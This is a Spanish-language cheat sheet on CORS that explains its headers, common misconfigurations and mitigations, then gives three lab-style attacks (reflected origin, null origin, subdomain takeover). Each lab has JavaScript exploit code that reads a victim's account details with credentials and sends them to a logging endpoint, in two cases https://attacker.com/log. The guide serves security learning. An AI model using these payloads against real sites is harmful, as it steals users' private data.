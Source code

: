 ```yaml
---

### 🌐 **CORS (Cross-Origin Resource Sharing) Cheat Sheet**  

---
```


#### **¿Qué es CORS?**  
CORS (Cross-Origin Resource Sharing) es un mecanismo que permite que un servidor indique qué orígenes (dominios, esquemas o puertos) pueden acceder a sus recursos.  
Por defecto, los navegadores aplican la política de **Same-Origin Policy**, que restringe el acceso a recursos desde diferentes dominios.  

---

### **Funcionamiento de CORS**  
Cuando una aplicación realiza una solicitud HTTP a un dominio diferente (Cross-Origin), el navegador puede enviar una **preflight request** usando el método **OPTIONS** para verificar si el servidor permite la solicitud.  

El servidor responde con las cabeceras adecuadas:  

- **`Access-Control-Allow-Origin`**: Indica qué orígenes están permitidos (`*` para todos).  
- **`Access-Control-Allow-Methods`**: Métodos HTTP permitidos (e.g., `GET`, `POST`, `PUT`).  
- **`Access-Control-Allow-Headers`**: Encabezados que se pueden usar en la solicitud.  
- **`Access-Control-Allow-Credentials`**: Permite el uso de credenciales si está en `true`.  

---

### **Vulnerabilidad de CORS**  

#### **1. Permitir todos los orígenes (`*`)**  
Esto puede permitir el acceso a datos sensibles desde cualquier sitio, lo que facilita ataques **CSRF**.  
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

#### **2. Validación débil del origen**  
No verificar correctamente los orígenes permite que **cualquier dominio** acceda a los recursos.  

---

### **Ejemplo de Configuración Segura**
Permitir solo dominios específicos y métodos seguros:
```http
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Credentials: true
```

---

### **Medidas de Mitigación**  
1. **Restringir Orígenes:** Evitar el uso de `*` y permitir solo dominios de confianza.  
2. **Validar las Cabeceras:** Asegurarse de que las cabeceras estén correctamente configuradas.  
3. **Monitoreo y Auditoría:** Realizar pruebas periódicas para verificar configuraciones inseguras.  

---

## **Cabeceras CORS y Sus Funciones**  
| Cabecera                           | Función                                                                   | Ejemplo                                            |
| ---------------------------------- | ------------------------------------------------------------------------- | -------------------------------------------------- |
| `Access-Control-Allow-Origin`      | Especifica qué orígenes pueden acceder al recurso.                        | `Access-Control-Allow-Origin: https://example.com` |
| `Access-Control-Allow-Credentials` | Permite el uso de credenciales (cookies, autenticación HTTP).             | `Access-Control-Allow-Credentials: true`           |
| `Access-Control-Allow-Methods`     | Métodos HTTP permitidos (`GET`, `POST`, `PUT`).                           | `Access-Control-Allow-Methods: GET, POST`          |
| `Access-Control-Allow-Headers`     | Cabeceras HTTP permitidas en la solicitud.                                | `Access-Control-Allow-Headers: Content-Type`       |
| `Access-Control-Expose-Headers`    | Cabeceras expuestas al navegador.                                         | `Access-Control-Expose-Headers: X-Kuma-Revision`   |
| `Access-Control-Max-Age`           | Tiempo en segundos que el resultado de la preflight se almacena en caché. | `Access-Control-Max-Age: 3600`                     |
| `Access-Control-Request-Method`    | Método HTTP que se usará en la solicitud real (en preflight).             | `Access-Control-Request-Method: DELETE`            |
| `Access-Control-Request-Headers`   | Cabeceras HTTP que se enviarán en la solicitud real.                      | `Access-Control-Request-Headers: X-PINGOTHER`      |
| `Origin`                           | Especifica el origen de la solicitud.                                     | `Origin: https://malicioso.com`                    |

---

## 💣 **Payloads y Ataques Relacionados**

### 🐚 **Lab 1: Origin Manipulation**
**Request:**
```http
Origin: https://gustavo.com
```
**Response:**
```http
Access-Control-Allow-Origin: https://gustavo.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>
```

---

### 🕵️ **Lab 2: Origin Null Bypass**
**Request:**
```http
Origin: null
```
**Response:**
```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('https://attacker.com/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>"></iframe>
```

---

### 🎯 **Lab 3: Subdomain Takeover with CORS**
**Request:**
```http
Origin: https://gustavo.target.com
```
**Response:**
```http
Access-Control-Allow-Origin: https://gustavo.target.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('https://attacker.com/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>
```

---

💾 **Guarda esta guía en Obsidian para tener siempre a mano las técnicas y ataques relacionados con CORS!** 🚀